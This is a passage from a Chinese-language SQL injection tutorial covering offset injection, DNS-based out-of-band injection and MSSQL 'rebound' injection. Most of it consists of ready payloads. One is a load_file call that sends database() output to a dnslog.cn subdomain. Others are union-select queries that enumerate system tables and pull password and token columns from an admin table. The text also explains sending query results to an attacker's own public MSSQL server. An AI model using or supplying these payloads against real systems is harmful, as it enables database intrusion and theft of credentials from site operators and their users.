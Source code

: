 ### 使用场景

在SQL注入的时候会碰到一些无法查询列名的情况，比如

- 系统自带数据库的权限不够而无法访问系统自带库。
- 当猜到表名但是无法猜到字段名的时候，可以使用偏移注入来查询表里的数据。

表名.*：*在数据库中代表一切；.代表向下

### 使用步骤

```
union select 1,2,3,admin.* from admin    // 放在不同的回显点显示不同的字段的内容，回显点包含在admin.*内
union select 1,2,admin.*,10 from admin
```

## 0x08 DNS注入

### 使用场景

无法直接利用漏洞获得回显，但是目标可以发起请求，此时就可以通过DNS请求的方法将想获得的数据外带出来。

核心：将盲注转化为显错注入

MySQL必须打开`secure_file_priv= ` 

### 函数解析

load_file()读取文件

```
select load_file('//error.1806dl.dnslog.cn/bc');
select load_file(concat('//',(select database()),'.1806dl.dnslog.cn/bc'));
```

dnslog.cn   // 网站

## **0x9 反弹注入**

### 使用场景

页面没东西显示的盲注

明明是SQL的注入点却无发进行注入，注入工具猜解的速度异常缓慢，错误提示信息关闭，无法返回注入结果等，这些都是在注入攻击中常常遇到的问题。为了解决这些问题，比较好的解决方法是使用反弹注入技术，而反弹注入技术需要依靠opendatasource函数。

反弹注入就是把查询出来的数据发送到我们的MSSQL数据库上，此时就需要自己的MSSQL数据库和一个公网IP。

### 显错注入

1. 猜字段
2. 联合查询，要写union all select
3. 输出点要用null填充
4. 注释只有--+
5. sysobjects查询系统表 union all select id,name,null from sysobjects where xtype =U --+
6. syscolumns字段 union all select id,name,null from syscolumns where id=id --+
7. 查询信息 union all select id,passwd,token from admin --+
